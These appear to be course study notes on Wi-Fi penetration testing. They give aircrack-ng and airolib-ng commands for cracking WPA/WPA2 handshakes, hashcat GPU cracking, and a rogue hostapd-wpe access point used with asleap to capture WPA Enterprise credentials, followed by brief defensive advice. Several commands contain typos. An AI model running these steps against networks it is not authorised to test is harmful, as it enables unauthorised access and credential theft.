 We are going to use aircrack-ng to crack the key. It does this by combining each password in the wordlist with AP name(essid) to compute a pairwise master key (PMK) using the pbkdf2 algoithm, the PMK is the compared to the handshake file.
#> aircrack-ng [HANDSHAKE ]  -w [wordlist] [interface]      
Computing the PMK is slow, and we only need the wordlist and the essid of the target AP to compute it. Therefore we can save time and compute the PMK for our wordlist while waiting for the handshake
1. Create a database and import wordlist
airlob-ng test.db --import paswd wpa-wordlist
2. Import target ESSID 
airolib-ng [db_name ] --import essid [essid file ]

echo "test.ap" > test-essid
cat test-essid
airolib-ng [db_name ] --import essid [essid file ]

3. Compute PMK for the wordlist 
airolib-ng [db_name ] --batch
4. Crack the key using the PMK database
aircrack-ng -r [db_name ] [handshake_file ]

--------------------------------------------------------------------------------------------------------
Cracking WPA/WPA2 using GPU

GPU is designed to carry out repetitve tasks fast
It is more efficient than the CPU at that
Cracking hashes is a repetitive task
---> GPU can be used to crack WPA/WPA2 faster
hashcat64.exe -m 2500 -d 1 handshake.hccapx < file name>

------------------------------------------------------------------------------------------------------------------
WPA Enterprise

All WPA/WPA2 networks we seen so far use PSK authentication
A shared key is used to authenticate users
One key per network
Router manages authentication
WPA Enterprise is another form of authentication
Each user get their own key to connect to the network
Authentication is managed through a central sever (RADIUS SERVER) 
---------------------------------------------------------------------------------------------------------------------
apt-get install hostpad-wpe
leafpad /etc/hostpad-wpe/hostpad-wpe.conf
service manager stop
hostapd-wpe [ location of the configuration file ]
Your password is never saved on the sever
asleap -C [ chanllenge] -R [ mac] -W [ file name ]

---------------------------------------------------------------------------------------------------------------------
1. Captive Portals
Open networks
No encryption is used
Lot of ways to get in

Solution
- Do not use captive portals
- Use WPA/WPA2 enterprise instead
2. WEP
Lot of methods to crack it
Even SKA networks can be cracked
Solution
- Do not use WEP
